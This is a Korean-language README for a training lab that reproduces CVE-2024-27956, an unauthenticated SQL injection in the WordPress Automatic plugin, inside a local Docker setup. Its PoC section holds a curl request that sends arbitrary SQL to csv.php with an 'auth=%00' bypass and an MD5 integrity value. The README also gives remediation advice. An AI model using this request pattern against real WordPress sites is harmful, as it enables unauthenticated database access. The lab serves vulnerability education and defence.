



# CVE-2024-27956 | WordPress Automatic Plugin SQL Injection

> 화이트햇 스쿨 4기 - [@kimwm5377](https://github.com/kimwm5377)

<br/>

### 취약점 요약

CVE-2024-27956은 WordPress Automatic Plugin 3.92.0 이하 버전에서 발생한 SQL Injection 취약점입니다.

취약한 버전의 플러그인은 로그를 CSV로 다운로드하는 기능에서 `/wp-content/plugins/wp-automatic/inc/csv.php` 엔드포인트를 사용하며, 이 과정에서 `q`, `auth`, `integ` 값이 POST 요청으로 전달됩니다. 이때 `q` 파라미터에 포함된 SQL 질의문이 충분한 필터링 없이 데이터베이스에 전달되어 임의 SQL 실행으로 이어질 수 있습니다.

이 실습 환경은 실제 유료 플러그인 ZIP을 레포에 포함하지 않습니다. 대신 CVE-2024-27956의 핵심 요청 흐름인 `q`, `auth`, `integ`, `csv.php` 구조를 로컬 Docker 환경에서 확인할 수 있도록 교육용 재현 플러그인을 컨테이너 내부에서 생성합니다. 따라서 본 환경은 실제 플러그인의 전체 기능이 아니라, CVE-2024-27956 재현에 필요한 최소 요청 흐름만 구현한 실습 환경입니다.

- CVE: CVE-2024-27956
- 대상: WordPress Automatic Plugin
- 영향 버전: 3.92.0 이하
- 취약점 유형: SQL Injection
- 취약 엔드포인트: `/wp-content/plugins/wp-automatic/inc/csv.php`

<br/>

### 환경 구성

다음 명령어 하나로 WordPress, MariaDB, 교육용 재현 플러그인이 모두 준비됩니다.
```bash
docker compose up -d --build
```
Docker Compose v2 환경에서는 `docker compose up -d --build`를 사용하고, v1 환경에서는 `docker-compose up -d --build`를 사용할 수 있습니다.

`scripts/entrypoint.sh`는 WordPress 초기 설정과 교육용 재현 플러그인 생성을 자동화하는 스크립트입니다.

컨테이너 상태를 확인합니다.

```bash
docker compose ps
```

WordPress 초기화와 플러그인 생성 로그를 확인합니다.

```bash
docker compose logs wordpress
```

정상적으로 준비되면 아래 로그가 출력됩니다.

```text
[setup] CVE-2024-27956 lab is ready: http://127.0.0.1:8080
```

기본 접속 정보는 다음과 같습니다.

- URL: `http://127.0.0.1:8080`
- ID: `admin`
- Password: `adminpass123!`

정상적으로 환경이 구성되면 브라우저에서 CVE-2024-27956 Local Lab 페이지가 출력됩니다.






<br/>

### 취약 조건

`inc/csv.php`는 아래 조건을 만족하는 POST 요청을 처리합니다.

- `q`: 데이터베이스에 전달되는 SQL 질의문
- `auth`: 요청 검증 과정에서 사용되는 값이며, PoC에서는 `%00` 값을 사용
- `integ`: `q` 문자열의 MD5 해시값

실습용 플러그인은 CVE-2024-27956의 취약 요청 흐름을 재현하기 위해 `q`를 데이터베이스 질의에 직접 사용합니다. 실제 서비스에서는 사용자가 제어할 수 있는 값을 SQL에 직접 연결하면 안 됩니다.

<br/>

### 재현 절차

1. 취약 환경을 실행합니다.

   ```bash
   docker compose up -d --build
   ```

2. 준비 로그를 확인합니다.

   ```bash
   docker compose logs wordpress
   ```

3. PoC를 실행합니다.

   ```bash
   bash poc.sh
   ```

4. 실습을 종료합니다.

   ```bash
   docker compose down -v
   ```

<br/>

### PoC 코드

`poc.sh`는 CVE-2024-27956의 취약 요청 흐름을 재현하는 고정 payload를 전송합니다.

```bash
curl -sS -X POST "http://127.0.0.1:8080/wp-content/plugins/wp-automatic/inc/csv.php" \
  --data-urlencode "q=SELECT 'CVE-2024-27956 Exploit' as action, @@VERSION as data, '2024-11-5 04:49:51' as date" \
  -d "auth=%00" \
  -d "integ=c66b4ac73975004d6b788d1ae833ea1e"
```

전송되는 주요 값은 다음과 같습니다.

| Parameter | Value |
| --- | --- |
| `q` | `SELECT 'CVE-2024-27956 Exploit' as action, @@VERSION as data, '2024-11-5 04:49:51' as date` |
| `auth` | `%00` |
| `integ` | `c66b4ac73975004d6b788d1ae833ea1e` |

`integ`는 `q` 문자열의 MD5 해시입니다. `q`를 변경하면 `integ`도 함께 변경해야 합니다.

`auth`는 CSV 다운로드 요청 과정에서 함께 전달되는 검증용 값입니다. 실제 취약 흐름에서는 이 값과 사용자 정보 검증 로직이 충분히 안전하지 않아 인증되지 않은 요청도 처리될 수 있습니다. 본 실습에서는 해당 흐름을 재현하기 위해 `%00` 값을 사용합니다.



<br/>

### 실행 결과

성공하면 CSV 형식의 응답이 출력됩니다.

```text
action,data,date
"CVE-2024-27956 Exploit","10.6.x-MariaDB-...","2024-11-5 04:49:51"
```

`data` 값에는 실습 환경의 MariaDB 버전 정보가 출력되므로, 세부 버전은 실행 환경에 따라 다를 수 있습니다.


<br/>

### 대응 방안

- WordPress Automatic Plugin을 3.92.1 이상 또는 최신 버전으로 업데이트합니다.
- 사용자 입력값을 SQL 쿼리에 직접 연결하지 않고 prepared statement를 사용합니다.
- `q`, `auth`, `integ`와 같은 클라이언트 입력값을 서버 측에서 검증합니다.
- 인증 없이 접근 가능한 플러그인 엔드포인트를 최소화합니다.
- 웹 서버 및 WordPress 로그에서 `/wp-content/plugins/wp-automatic/inc/csv.php` 요청 이력을 점검합니다.

<br/>

### 평가 기준 대응

- Reproducibility
    - `docker compose up -d --build` 실행 후 `bash poc.sh` 명령으로 재현할 수 있습니다.
    - 실제 유료 플러그인 파일에 의존하지 않고 컨테이너 내부에서 교육용 재현 플러그인을 생성합니다.
- Risk Score
    - NVD 기준 CVSS v3.1 Base Score는 9.8 Critical입니다.
    - 네트워크에서 접근 가능한 엔드포인트를 통해 인증 없이 SQL 질의가 실행될 수 있으므로 위험도가 높습니다.

<br/>

### 참고 자료

- <https://nvd.nist.gov/vuln/detail/CVE-2024-27956>
- <https://www.cve.org/CVERecord?id=CVE-2024-27956>
- <https://patchstack.com/database/vulnerability/wp-automatic/wordpress-automatic-plugin-3-92-0-unauthenticated-arbitrary-sql-execution-vulnerability>
- <https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-automatic/automatic-3920-unauthenticated-sql-injection>
